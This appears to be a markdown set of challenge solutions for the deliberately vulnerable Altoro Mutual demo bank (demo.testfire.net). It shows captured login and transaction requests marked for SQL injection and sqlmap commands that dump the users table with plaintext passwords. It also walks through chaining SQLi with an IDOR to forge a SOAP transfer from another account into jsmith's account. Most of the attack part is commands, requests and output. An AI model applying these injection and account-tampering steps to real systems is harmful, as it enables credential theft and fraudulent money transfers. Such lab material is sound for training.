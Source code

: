 ## SQLi Solutions 
### Bypass Login and dump tables http://demo.testfire.net/bank/login.aspx
```
POST /bank/login.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 41
Cache-Control: max-age=0
Origin: http://demo.testfire.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/login.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=
Connection: close

uid=*&passw=Demo1234&btnSubmit=Login

```
```
./sqlmap.py -r session.txt --banner
./sqlmap.py -r session.txt --users --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session.txt --tables --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session.txt --columns --level 3 --risk 3 --technique=B --dbms "Microsoft Access"  -T users -C username,password --dump --threads 10

....

Database: Microsoft_Access_masterdb
Table: users
[6 entries]
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ad\xe3in |
| cclay    | Ali       |
| jsmith   | Demo1234  |
| sjoe     | frazier   |
| sspeed   | Demo1234  |
| tuser    | tuser     |
+----------+-----------+
```



### all your transaction belong to us http://demo.testfire.net/bank/transaction.aspx

```
POST /bank/transaction.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 104
Cache-Control: max-age=0
Origin: http://demo.testfire.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/transaction.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

__VIEWSTATE=%2FwEPDwUKMTYzNDg3OTA4NmRk&after=&before=1*

```
```
./sqlmap.py -r session.txt --banner
./sqlmap.py -r session.txt --users --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session.txt --tables --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session.txt --columns --level 3 --risk 3 --technique=B --dbms "Microsoft Access"  -T users -C username,password --dump --threads 10

....

Database: Microsoft_Access_masterdb
Table: users
[6 entries]
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ad\xe3in |
| cclay    | Ali       |
| jsmith   | Demo1234  |
| sjoe     | frazier   |
| sspeed   | Demo1234  |
| tuser    | tuser     |
+----------+-----------+
```


### Make Jsmith rich
* This challenge chains a SQLi with an Idor vulnerability to transfer money from one persons account into jsmith's account
* On the http://demo.testfire.net/bank/transaction.aspx page use the SQLi in the before date `1 or 1 = 1;--` 
to view all transactions.   
* Transactions going from account 20 and 21 seem to be automated. 
* Make a transaction from Account 20 to jsmith savings account
* intercept transaction request and change `debitAccount` number to 20 
```

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <soap:Body>
  <TransferBalance xmlns="http://www.altoromutual.com/bank/ws/">
   <transDetails>
    <transferDate>2000-01-01</transferDate>
    <debitAccount>20</debitAccount>
    <creditAccount>1001160141</creditAccount>
    <transferAmount>2000</transferAmount>
   </transDetails>
  </TransferBalance>
 </soap:Body>
</soap:Envelope>

```

* This worked last week but wasn't working as of Monday if you see this `Server was unable to process request. ---> Could not find file 'C:\Windows\TEMP\twc6vagm.dll'.`, the app is broken not your exploit
